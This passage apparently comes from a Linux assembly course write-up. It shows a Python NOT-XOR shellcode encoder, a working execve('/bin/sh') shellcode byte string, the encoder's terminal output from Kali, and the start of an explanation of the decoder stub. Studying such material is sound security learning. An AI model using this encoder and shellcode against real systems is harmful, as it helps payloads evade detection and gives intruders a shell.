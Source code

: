 ```python
shellcode = bytearray(b'SHELLCODE_PLACEHOLDER')

# NOT encoded shellcode
n_encoded = n_encode(shellcode)

# Unused byte for XOR value; used in nx-decoder.nasm
xor_byte = find_unused_byte(n_encoded)

# NOT-XOR encoded shellcode
nx_encoded = x_encode(n_encoded)

# Delimitter used in nx-decoder.nasm
delimiter = find_unused_byte(nx_encoded)
nx_encoded.append(delimiter)

# Formats shellcode for printing
formatted_shellcode = format_shellcode(nx_encoded)

# Prints output to terminal
print('Length: %d' % len(nx_encoded))
print('XOR Delimiter: ' + hex(delimiter))
print('XOR Byte: ' + hex(xor_byte))
print(formatted_shellcode)
```

#### Encoding
To demonstrate the encoder, the `SHELLCODE_PLACEHOLDER` text from the code above is replaced with the `execve-stack` with the `/bin/sh` payload set shellcode, as shown below.

```python
shellcode = bytearray(b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80')
```

The result of running `NX-Encoder.py` is shown below. Note that the `XOR` byte and the `XOR` delimeter are selected randomly, so the next time `NX-Encoder.py` is run, the result will most likely be different.

```shell
root@kali:~/workspace/SLAE/# python3 NX-Encoder.py 
Length: 26
XOR Delimiter: 0x7c
XOR Byte: 0xe4
0x2a,0xdb,0x4b,0x73,0x34,0x34,0x68,0x73,0x73,0x34,0x79,0x72,0x75,0x92,0xf8,0x4b,0x92,0xf9,0x48,0x92,0xfa,0xab,0x10,0xd6,0x9b,0x7c
```

The output from `NX-Encoder.py` is formatted as hexadecimal byte values for use in `nx-decoder.nasm`, which is explained in the following section.

## Decoder
#### Explanation
The purpose of a decoder stub is to first undo the encoding process, and then to execute the un-encoded shellcode. To reverse the operations performed on the shellcode by `NX-Encoder.py`, the decoder stub will `XOR` each byte, and then `NOT` each byte. The first `XOR` operand is the encoded shellcode byte and the second operand is the `XOR` byte, as given by `NX-Encoder.py`. The decoder stub follows the byte string one byte at a time performing these operations. That is to say that each byte is subjected to the `XOR` operation and then to the `NOT` operation before the decoder continues on to the next byte and repeats the operations. Once the delimeter value that is appended to the end of the encoded shellcode is reached, the decoder jumps to the unencoded shellcode, thus executing the code.
